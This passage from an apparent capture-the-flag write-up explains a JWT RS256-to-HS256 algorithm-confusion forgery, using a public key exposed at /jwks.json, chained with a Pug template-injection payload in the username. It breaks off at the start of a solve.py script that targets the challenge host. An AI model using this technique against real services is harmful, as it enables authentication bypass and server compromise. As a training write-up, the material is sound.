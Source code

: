 ```js
}
```

{% endcode %}

The `none` algorithm is blocked, so we can't remove the signature verification but how about [algorithm confusion](https://portswigger.net/web-security/jwt/algorithm-confusion)? If we can change the token from `RS256` (asymmetric) to `HS256` (symmetric) and then sign with the public key, the server will use the same key to verify the signature 🧠

You can do this with the JWT tool, or one of the JWT extension in burp. I made a [video series](https://www.youtube.com/watch?v=GIq3naOLrTg&list=PLmqenIp2RQciV955S2rqGAn2UOrR2NX-v) covering the JWT attack material and labs from Portswigger, over on the Intigriti channel if you are interested 🙂

The public key is exposed on the common `/jwks.json` endpoint.

{% code overflow="wrap" %}

```js
router.get("/jwks.json", async (req, res) => {
    try {
        const publicKey = await fsPromises.readFile(path.join(__dirname, "..", "public_key.pem"), "utf8");
        const publicKeyObj = crypto.createPublicKey(publicKey);
        const publicKeyDetails = publicKeyObj.export({ format: "jwk" });

        const jwk = {
            kty: "RSA",
            n: base64urlEncode(Buffer.from(publicKeyDetails.n, "base64")),
            e: base64urlEncode(Buffer.from(publicKeyDetails.e, "base64")),
            alg: "RS256",
            use: "sig",
        };

        res.json({ keys: [jwk] });
    } catch (err) {
        res.status(500).json({ message: "Error generating JWK" });
    }
});
```

{% endcode %}

All that's left is to modify our username with a Pug SSTI payload, e.g. from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

I automated the whole process with detailed comments explaining each step. You just need to update the `BASE_URL`, `JWT_TOOL_PATH` and the `ATTACKER_SERVER` in the `SSTI_PAYLOAD`.

### solve.py

{% code overflow="wrap" %}

```python
import requests
import subprocess
from base64 import urlsafe_b64decode
from Crypto.PublicKey import RSA

# Constants for challenge
BASE_URL = 'https://catclub-0.ctf.intigriti.io'
REGISTER_URL = f'{BASE_URL}/register'
LOGIN_URL = f'{BASE_URL}/login'
JWK_URL = f'{BASE_URL}/jwks.json'
CAT_URL = f'{BASE_URL}/cats'
JWT_TOOL_PATH = f'/home/crystal/apps/jwt_tool'

```